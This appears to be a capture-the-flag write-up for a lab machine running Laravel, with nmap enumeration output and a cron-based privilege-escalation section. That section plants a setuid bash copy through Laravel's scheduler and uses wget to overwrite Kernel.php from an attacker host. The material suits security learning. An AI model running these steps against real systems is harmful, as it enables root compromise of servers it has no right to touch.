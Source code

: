 ```bash

## privesc - cronjob

https://laravel.com/docs/9.x/scheduling

find / -name "Kernel.php" -type f 2>/dev/null

/var/www/laravel/app/Console/Kernel.php

$schedule->exec('cp /bin/bash /tmp/bash; chmod 4755 /tmp/bash')->minute();

wget http://10.10.14.29/Kernel.php -O /var/www/laravel/app/Console/Kernel.php

```







# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-01 00:36 CST
Nmap scan report for 10.129.227.211
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
```